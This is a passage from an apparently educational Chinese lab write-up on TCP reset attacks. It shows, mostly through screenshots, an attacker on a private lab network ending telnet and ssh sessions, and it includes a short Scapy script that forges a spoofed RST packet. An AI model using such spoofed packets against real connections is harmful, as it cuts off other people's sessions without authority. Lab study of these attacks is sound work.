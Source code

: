 	![image-20201108104853568](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108104853568.png)

	可以观察到，在发送了`telnet data`之后

	`attacker`伪造自己是`client`向`server`发送一个tcp断开的包(`8号流量包`)，并且断开了`tcp会话`

- `ssh`

	首先建立`ssh`连接

	![image-20201108105413392](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108105413392.png)

	在`attacker`中启动攻击

	![image-20201108105503437](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108105503437.png)

	`client`发送数据时，直接中断

	![image-20201108105457258](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108105457258.png)

	流量包和`telnet`的情形类似

	![image-20201108105550832](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108105550832.png)



#### use scapy

首先建立`telnet`会话

![image-20201108133254310](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108133254310.png)

在`server`抓捕流量包，查看一下`seq`和`port`

![image-20201108133342287](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108133342287.png)

在`attack`运行如下代码

```python
from scapy.all import *

ip = IP(src="192.168.2.191", dst="192.168.2.189")
flag = 'R'
seq = 197594975
ack = 0
tcp = TCP(sport=42602, dport=23, seq=seq, flags=flag, ack=ack)

pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```

运行之后，`client`和`server`之间的会话终止

![image-20201108133432516](https://gitee.com/ethustdout/pics/raw/master/img/image-20201108133432516.png)

抓到的流量包
